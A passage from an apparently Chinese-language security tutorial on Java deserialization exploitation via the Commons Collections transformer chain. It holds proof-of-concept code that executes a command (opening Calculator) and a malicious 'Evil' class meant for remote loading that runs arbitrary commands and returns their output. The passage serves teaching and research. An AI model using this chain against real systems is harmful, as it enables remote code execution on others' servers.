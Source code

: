 ```java
                new InvokerTransformer("exec", new Class[] {String.class}, new Object[] {"open -a Calculator"})
        };

        Transformer transformChain = new ChainedTransformer(transformers);

        //普通的Map
        Map mp=new HashMap();
        mp.put("sw", "demo");

        // 将普通的Map变成TransformedMap，并且指定变换方式为前面定义的恶意chain
        Map transformMap = TransformedMap.decorate(mp, transformChain, transformChain);

        // 修改TransformedMap中的一个值，成功执行命令
        Map.Entry entry=(Map.Entry) transformMap.entrySet().iterator().next();
        entry.setValue("test");
    }
}
```

注意第 25 行我执行的命令是 open -a Calculator，这里是 Mac 下打开计算机的命令，如果在 Windows 下则需要修改成对应命令。

运行一下代码，可以看到成功弹出计算器

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202111211543622.png)

这里只是实现了无回显的利用方式，接下来就利用代码注入实现有回显的利用。

### 有回显利用

这里有回显利用的方式是使用 java.net.URLClassLoader 远程加载自定义恶意类，也就是自己放在服务器上的 jar 包，然后在抛出的异常信息中获得回显结果。

因此这里首先需要先写一个恶意类，具体如下：

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Evil {
    public static void Exec(String args) throws Exception {
        Process proc = Runtime.getRuntime().exec(args);
        BufferedReader br = new BufferedReader(new InputStreamReader(proc.getInputStream()));
        StringBuffer sb = new StringBuffer();
        String line;
        while ((line = br.readLine()) != null) {
            sb.append(line).append("\n");
        }
        String result = sb.toString();
        Exception e = new Exception(result);
        throw e;
    }
}
```

